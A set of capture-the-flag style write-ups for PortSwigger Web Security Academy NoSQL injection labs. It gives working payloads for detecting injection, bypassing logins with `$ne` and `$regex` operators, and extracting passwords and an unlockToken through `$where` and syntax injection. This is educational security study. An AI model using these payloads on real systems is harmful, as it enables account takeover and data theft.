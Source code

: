 ## Detecting NoSQL injection
[Detecting NoSQL injection](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-detection)

Writeup:
1. Website as a filtering feature, which accesses the following url:
   https://0aee005103709b8ae2a908f1003f00c8.web-security-academy.net/filter?category=Accessories

2. By inserting an url encoded `'||'1'=='1`, we get the following url and respective MongoDB query, which solve the lab:
   https://0aee005103709b8ae2a908f1003f00c8.web-security-academy.net/filter?category=Accessories%27%7c%7c%27%31%27%3d%3d%27%31
   `this.category == 'Accessories'||'1'=='1'`

## Exploiting NoSQL operator injection to bypass authentication
[NoSQL injection to bypass authentication](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-bypass-authentication)

Writeup:
1. We are told to login as `administrator` user, and we are given wiener:peter as valid credentials
   
2. If we use the following payloads, we get logged in as the valid user:
	`{"username":"wiener","password":{"$ne":""}}`
	`{"username":{"$ne":""},"password":"peter"}`

3.  The following payload logs us in as admin - as we don't know admin username:
	`{"username":{"$regex":"admin.*"},"password":{"$ne":""}}`
	Response:
	Location: /my-account?id=admink0gqh00s

## Exploiting syntax injection to extract data
[NoSQL injection to extract data](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-data)

Files:
brute.py

Writeup:
1. When intercepting the correct login request, we find a GET /user/lookup?user=wiener.
   If we attempt to lookup user `administrator`, we see that it also exists.

2. Attempting to send user `administrator"` just returns non-existent user, but sending `administrator'` returns an error, which means we might be able to inject syntax here.
   
3. Our goal is to find the password, so we send:
   `administrator'%26%261=='1` - %26 being URL-encoded "&"
   This allows us to log in correctly. 

4. Now we brute-force the password:
   `administrator'%26%26password[0]=='a` - returns error
   `administrator'%26%26user.password[0]=='a` - returns error
   `administrator'%26%26this.password[0]=='a` - returns admin user, meaning that `password[0]=a` - note that equaling to "b" says non-existent user.

5. After brute-forcing with brute.py, we get password: ajjtacdz 

## Exploiting operator injection to extract unknown fields
[NoSQL injection to extract unknown fields](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-unknown-fields)

Files:
brute-operator.py
brute-operator-p2.py

Writeup:
1. We are told to log in as `carlos`, so we intercept a request with user `carlos`.
2. Sending `{"username":"carlos","password":{"$ne":"invalid"}}` returns "Account Locked", which means that we can't access the account, but the operator was successful.
3. Sending `{"username":"carlos","password":{"$ne":"invalid"}, "$where": "0"}` returns "invalid username or password", but sending `{"username":"carlos","password":{"$ne":"invalid"}, "$where": "1"}` returns the same "Account Locked" as before, which means the $where operator is being evaluated.
4. Using `"$where": "Object.keys(this)[0].match('^.{0}.*')"` (0, 1, 2, 3, 4, etc.), we see there are 5 field names (0-4).
5. Using brute-operator.py, we can iterate through those indexes to brute-force their field names. We get:
   Discovered Fields: {0: '_id', 1: 'username', 2: 'password', 3: 'email', 4: 'unlockToken'}
6. Now that we know the field name, using brute-operator-p2.py we can find out "unlockToken". We get:
   Token: 99dac4b78c150b16
7. Going to /forgot-password, we insert username carlos and add `?unlockToken=99dac4b78c150b16`to url. This gets us to a password change screen, where we can change the password and login as carlos.